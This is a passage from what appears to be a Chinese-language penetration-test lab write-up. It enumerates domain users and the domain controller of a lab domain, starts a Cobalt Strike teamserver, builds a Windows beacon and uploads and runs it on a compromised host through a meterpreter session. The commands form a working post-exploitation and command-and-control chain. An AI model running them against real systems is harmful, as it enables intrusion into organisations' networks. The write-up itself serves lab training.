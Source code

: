 ```bash
net user /domain
```

> `\\WIN-AAL3RP4ELEQ.nisp.com`

域名：nisp.com

```bash
ping WIN-AAL3RP4ELEQ.nisp.com
```

![image-20241125170453462](https://image.201068.xyz/assets/writeup/image-20241125170453462.png)

域控ip

> 192.168.27.110

## 7.CS-msf上传cs木马码

### 启动cs

#### 服务端

```bash
cd CobaltStrike_4.4_dog/;./teamserver 192.168.28.101 123456
```

#### 客户端

```bash
192.168.28.101
6044

123456
```

### 设置监听器

```bash
192.168.28.101
5555
```

![image-20241125164914197](https://image.201068.xyz/assets/writeup/image-20241125164914197.png)

### 生成windows可执行程序

> x86

![image-20241125172013174](https://image.201068.xyz/assets/writeup/image-20241125172013174.png)

### 上传cs码

```bash
upload 5555.exe c:/
ls c:/
execute -f c:/5555.exe
```

